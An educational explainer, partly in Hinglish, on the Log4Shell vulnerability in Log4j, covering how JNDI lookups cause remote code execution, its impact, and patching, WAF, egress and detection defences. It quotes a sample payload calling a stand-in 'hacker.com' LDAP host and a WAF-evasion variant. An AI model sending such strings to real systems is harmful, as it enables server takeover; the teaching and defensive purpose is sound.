

# The Log4j Vulnerability (Log4Shell): The Internet on Fire

## 1. Beginner-friendly Hinglish Explanation 🇮🇳
Bhai, **Log4j (Log4Shell)** attack itna bada tha ki isse "Security ka Apocalypse" (Pralay) kaha gaya. 

Log4j ek chhota sa Java library hai jo almost har badi company (Apple, Amazon, Minecraft) apne logs likhne ke liye use karti thi. Ismein ek aisi kamzori thi ki agar aap kisi search bar ya chat box mein sirf ek line ka "Code" likh do, toh aap us company ke server ka poora control le sakte ho. Socho ek darwaza jismein aap "Aadesh" (Command) likho aur woh khul jaye. Isse **RCE (Remote Code Execution)** kehte hain.

---

## 2. Deep Technical Explanation
- **The Vulnerability**: **CVE-2021-44228** (Log4Shell).
- **The Root Cause**: A feature called **JNDI (Java Naming and Directory Interface)** Lookups.
- **The Mechanism**: 
    1. An attacker sends a string like `${jndi:ldap://hacker.com/a}` to an application.
    2. The application logs this string using Log4j.
    3. Log4j sees the `${...}` and thinks: "Oh, I need to fetch some information from this URL."
    4. Log4j connects to the hacker's server, downloads a Java class file, and **Executes** it.
- **Why it was so bad**: Log4j was everywhere. Even if you didn't know you were using Java, some library inside your app was probably using it.

---

## 3. Attack Flow Diagrams
**The Log4Shell Exploit Path:**

---

## 4. Real-world Impact
- **Ubiquity**: Thousands of enterprise apps, cloud services, and even the "Mars Ingenuity Helicopter" were using Log4j.
- **The Race to Patch**: For weeks, security teams worked 24/7 to find and update every single copy of Log4j in their companies.
- **Ransomware**: Hackers used this to quickly encrypt servers and demand millions of dollars.

---

## 5. Defensive Mitigation Strategies
- **Update to 2.17.1+**: The only permanent fix was to update the library to a version where JNDI lookups were disabled by default.
- **WAF (Web Application Firewall)**: Blocking any incoming requests that contain the `${jndi:...}` pattern.
- **Egress Filtering**: Preventing your servers from talking to random IP addresses on the internet (so they can't download the malicious class).

---

## 6. Failure Cases
- **The 'Shadow' Log4j**: Updating your main app but forgetting about the "Third-party tool" (like a printer driver or a management console) that also uses Log4j.
- **WAF Bypass**: Hackers found ways to "Hide" the string, like `${${lower:j}ndi:...}`, which some firewalls failed to catch.

---

## 7. Debugging and Investigation Guide
- **Grep for the string**: Searching your logs for any occurrence of `${jndi:`.
- **Vulnerability Scanners**: Using tools like **Tenable**, **Qualys**, or **Snyk** to find vulnerable versions of the JAR file.

---

## 8. Tradeoffs
| Feature | Feature-Rich Logging | Secure Minimal Logging |
|---|---|---|
| Usefulness | High (Auto-fetches data) | Medium |
| Security Risk | Extreme | Low |
| Performance | Slower | Faster |

---

## 9. Security Best Practices
- **Disable Lookups**: Even in older versions, you could set `log4j2.formatMsgNoLookups=true` to stop the attack.
- **Defense in Depth**: Don't assume your code is perfect. Use network-level blocks as a backup.

---

## 10. Production Hardening Techniques
- **Runtime Protection (RASP)**: Using a security agent inside the Java Virtual Machine (JVM) that blocks "Suspicious" JNDI calls at runtime.

---

## 11. Monitoring and Logging Considerations
- **Outgoing Network Connections**: Monitoring if a Java application suddenly tries to connect to an external server via the LDAP port (389).

---

## 12. Common Mistakes
- **Assuming 'I don't use Java'**: Many "No-code" or "Low-code" tools are built on top of Java.
- **Thinking the first patch was enough**: There were actually 3 separate vulnerabilities found in Log4j within one month. You had to patch 3 times.

---

## 13. Compliance Implications
- **FTC Warnings**: In the USA, the FTC warned companies that they could be sued if they failed to patch Log4j and their customers' data was stolen.

---

## 14. Interview Questions
1. Explain how a simple log message can lead to Remote Code Execution (RCE).
2. What is 'JNDI' and why was it the problem in Log4j?
3. How do you mitigate Log4shell if you cannot update the software immediately?

---

## 15. Latest 2026 Security Patterns and Threats
- **AI-Accelerated Patching**: Using AI to automatically find and replace vulnerable libraries in millions of lines of code.
- **Supply Chain Observability**: New tools that give you a "Live Map" of every library running in your production environment.
- **SBOM Mandates**: Most large companies now require a full SBOM before they buy any software, specifically to avoid "Another Log4j."
